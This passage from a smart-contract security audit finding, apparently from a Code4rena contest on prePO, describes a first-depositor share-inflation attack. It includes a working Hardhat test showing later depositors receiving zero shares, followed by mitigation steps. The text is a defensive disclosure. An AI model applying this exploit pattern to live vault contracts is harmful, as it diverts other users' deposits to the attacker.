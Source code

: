 *   Attacker deposits 2 wei (so that it is greater than min fee) to mint 1 share
*   Attacker transfers exorbitant amount to `_strategyController` to greatly inflate the share’s price. Note that the `_strategyController` deposits its entire balance to the strategy when its `deposit()` function is called.
*   Subsequent depositors instead have to deposit an equivalent sum to avoid minting 0 shares. Otherwise, their deposits accrue to the attacker who holds the only share.

    it("will cause 0 share issuance", async () => {
    	// 1. first user deposits 2 wei because 1 wei will be deducted for fee
    	let firstDepositAmount = ethers.BigNumber.from(2)
    	await transferAndApproveForDeposit(
    	    user,
    	    collateral.address,
    	    firstDepositAmount
    	)
    	
    	await collateral
    	    .connect(user)
    	    .deposit(firstDepositAmount)
    	
    	// 2. do huge transfer of 1M to strategy to controller
    	// to greatly inflate share price
    	await baseToken.transfer(strategyController.address, ethers.utils.parseEther("1000000"));
    	
    	// 3. deployer tries to deposit reasonable amount of 10_000
    	let subsequentDepositAmount = ethers.utils.parseEther("10000");
    	await transferAndApproveForDeposit(
    	    deployer,
    	    collateral.address,
    	    subsequentDepositAmount
    	)
    
    	await collateral
    	    .connect(deployer)
    	    .deposit(subsequentDepositAmount)
    	
    	// receives 0 shares in return
    	expect(await collateral.balanceOf(deployer.address)).to.be.eq(0)
    });

### [](#recommended-mitigation-steps-1)Recommended Mitigation Steps

*   [Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same can be done in this case i.e. when `totalSupply() == 0`, send the first min liquidity LP tokens to the zero address to enable share dilution.
*   Ensure the number of shares to be minted is non-zero: `require(_shares != 0, "zero shares minted");`
*   Create a periphery contract that contains a wrapper function that atomically calls `initialize()` and `deposit()`
*   Call `deposit()` once in `initialize()` to achieve the same effect as the suggestion above.

**[ramenforbreakfast (prePO) confirmed and commented](https://github.com/code-423n4/2022-03-prepo-findings/issues/27#issuecomment-1075728622):**

